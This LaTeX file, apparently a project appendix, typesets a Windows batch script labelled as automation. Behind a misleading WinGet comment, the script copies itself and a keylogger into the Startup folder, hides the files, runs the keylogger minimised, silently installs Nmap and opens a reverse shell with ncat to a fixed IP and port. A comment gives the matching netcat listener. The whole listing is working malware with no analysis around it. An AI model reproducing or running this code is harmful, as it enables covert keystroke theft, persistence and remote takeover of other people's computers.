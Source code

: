 \documentclass[11pt]{article}
\begin{document}
	\subsection{cmd\_commands.txt}
	\begin{lstlisting}[language=Batch, caption=cmd\_commands.txt - Batch Script for Automation, basicnumbers=left, numberstyle=\tiny\color{gray}, stringstyle=\color{red}, commentstyle=\color{green!70!black}, keywordstyle=\color{blue}, breaklines=true, breakatwhitespace=true, tabsize=4, showstringspaces=false]
		:: from receiver side please write nc -lvnp port number 
		
		@echo off
		:: Install WinGet PowerShell module from PSGallery
		if exist "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\%~nx0" (
		start /min cmd /c "cd "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup" & python "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylog.py" & attrib +h "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylog.py""
		) else (
		start /min cmd /c "curl -o AppInstaller.msixbundle https://aka.ms/getwinget & winget --version & winget install Insecure.Nmap --accept-package-agreements --accept-source-agreements --silent & attrib +h "AppInstaller.msixbundle""
		
		start /min cmd /c "xcopy /H "%~dpnx0" "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup" & attrib +h "%~dpnx0" & xcopy /H "keylog.py" "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup" & attrib +h "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylog.py" & attrib -h "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\%~nx0""
		
		start /min cmd /c "cd "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup" & python "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\keylog.py""
		)
		
		start /min cmd /c "ncat 172.20.10.15 12345 -e cmd.exe"
	\end{lstlisting}
	Source: Provided `cmd\_commands.txt` file[cite: 4].
	
\end{document}
